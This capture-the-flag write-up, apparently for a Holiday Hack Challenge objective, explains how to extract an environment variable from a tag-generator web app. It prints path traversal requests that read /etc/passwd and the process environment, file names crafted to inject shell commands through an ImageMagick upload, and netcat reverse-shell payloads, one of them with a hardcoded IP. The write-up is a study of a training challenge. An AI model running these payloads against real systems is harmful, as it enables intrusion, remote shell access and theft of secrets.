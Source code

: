 # Objective 8: Broken Tag Generator

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value the environment variable can be obtained like this:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through the above path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../app/lib/app.rb --output app.rb
```
This code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:*$ touch \'\`env\>joergen\`\;\'.jpg
jsw@io:*$ zip joergen.zip \'\`env\>joergen\`\;\'.jpg
  adding: '`env>joergen`;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ sleep 5
jsw@io:*$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
[..]
```

## Full Interactive Remote Shell
Create a file for executing a reverse shell named `t.jpg`:
```
nc <your IP address> 4444 -e /bin/bash
```
Create an executor file:
```
touch \'\`bash\ t.jpg\`\;\'.jpg
```
Create the ZIP file including these two file for upload:
```
zip joergen.zip t.jpg \'\`bash\ t.jpg\`\;\'.jpg
```
Start the reverse shell listener on your local device:
```
nc -lnvp 4444
```
Get it started:
```
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
Now you have in the reverse shell listener an interactive shell as user `app`.

```
touch \'\;nc\ 93.211.52.129\ 4444\ -e\ bash\;#\'.jpg
zip joergen.zip \'\;nc\ 93.211.52.129\ 4444\ -e\ bash\;#\'.jpg 
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'


```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTgyMzA1MDg2MSwxMjkzNzIwNDM5LDEzOT
U3OTQ4MjQsLTE1OTkyNTQ0MTUsLTYxOTI5NzQxMSwtNTc2NjEw
MDc1LDIxMDc1Mjk4NDYsOTIyMTQ0MzUsLTM5ODQ5MTQ2MSwxMT
UxNTU2ODk2LDIzODQ2MDI3MiwxOTMzMzYxNzg3LC0xNDY3NjE1
MjYyLC0yNDM5NDI4NjYsMTMxMjA1NjQ1Myw5MjA0NTU4NjUsLT
E2MDYwNzgwNDBdfQ==
-->